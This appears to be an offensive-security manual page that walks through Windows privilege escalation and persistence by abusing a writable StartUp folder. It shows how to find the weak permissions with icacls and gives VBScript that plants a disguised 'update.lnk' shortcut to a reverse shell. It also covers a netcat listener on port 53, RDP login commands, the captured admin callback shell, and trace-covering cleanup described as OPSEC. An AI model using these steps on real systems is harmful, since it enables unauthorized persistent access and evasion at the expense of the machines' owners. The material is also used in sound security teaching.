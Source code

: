 # Manual

One of the privilege escalation technique and so far the easiest ones to exploit it is Startup programs in the `StartUp` folder. Some versions of Windows operating systems vary to one another and it could be server or a workstation do a bit of research to find those locations and this technique is part of persistence mechanism to maintain access.

- **Windows Server 2019**

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

- **Windows 11**

`C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

## 01 - Detect

```
C:\> icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp BUILTIN\Users:(OI)(CI)(F)
                                                             WIN-QBA94KB3IOF\Administrator:(I)(OI)(CI)(DE,DC)
                                                             WIN-QBA94KB3IOF\admin:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)
```

## 02 - Exploit

We can copy the reverse shell to the `StartUp` folder or we can create a shortcut link file to redirect the path of our reverse shell.

```vbscript
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\update.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "<path_to_shell>"
oLink.Save
```

Then execute it then start a shell listener

```
C:\> cscript CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

`$ sudo nc -lvnp 53`

Now we wait for the administrator user to login and wait for a callback connection.

```
$ xfreerdp /u:"<username>" /p:"<password>" /sec:<rdp | tls | nla> /v:<IP>

$ rdesktop -u <username> -p <password> <IP>

$ sudo nc -lvnp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.221.80.
Ncat: Connection from 10.10.221.80:49882.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
win-qba94kb3iof\admin
```

## 03 - Cleanup

Now the problem is through this netcat handler we can't revert back to it's original binary file. However, once you perform this technique use metasploit framework as a shell handler since it is easily can be migrated to another process and to revert back just like I've previously demonstrated when covering your traces. Take this OPSEC measure into account.

```
C:\Windows\system32> del "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\update.lnk"

C:\Windows\system32> del /path/to/shell.exe
```